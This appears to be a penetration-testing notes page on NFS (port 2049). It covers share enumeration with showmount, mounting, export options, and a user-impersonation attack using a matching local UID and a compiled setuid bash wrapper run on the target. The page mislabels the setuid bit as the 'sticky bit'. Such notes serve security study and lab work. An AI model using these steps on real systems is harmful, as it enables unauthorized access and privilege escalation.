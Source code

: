 # PORT 2049/tcp - NFS

Network File System is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

## Enumeration

`showmount` gives us the opportunity to know which folder are available for us.

```
showmount -e <IP>
```

## Mounting the folder

We can mount the folder with `mount` command.

```
mount -t nfs [-o vers=2] <IP>:<NFS_FOLDER> <LOCAL_FOLDER> -o nolock
```

## Configuration

The file `/etc/exports` show the NFS configuration applied on the server.

```
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash
```

* `rw`: Means that we can read and write any file on the share.
* `root_squash` (default): Maps all the requests from UID/GID 0 to the anonymous UID/GID.
* `no_root_squash`: All requests from UID/GID 0 are not mapped to the anonymous UID/GID.
* `no_all_squash` (default): Not map all the requests from other UID/GID to the anonymous UID/GID .

{% hint style="info" %}
**Note**: If we have access to the server and a NFS share has this configuration, we can impersonate any user on the attack machine except for the root user.
{% endhint %}

### Impersonate a User (No Root)

So what we’ll do is add the user frank (user to impersonate) on our kali machine and change his id to 1000 (Assigned on the target).

```
❯ useradd frank
❯ cat /etc/passwd | grep frank
frank:x:1000:1000::/home/frank:/bin/sh
```

{% hint style="info" %}
**Note**: You can change any ID by modifying the `/etc/passwd` file.
{% endhint %}

Next step is create a `setuid.c` file:

```
#include <unistd.h>
int main()
{
    setreuid(1000,1000);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Then compile it:

```
gcc setuid.c -o setuid
```

Set the sticky bit on the file:

```
chmod u+s setuid
```

And execute it on the target machine.

## References

* [https://book.hacktricks.xyz/pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)
* [https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/](https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/)
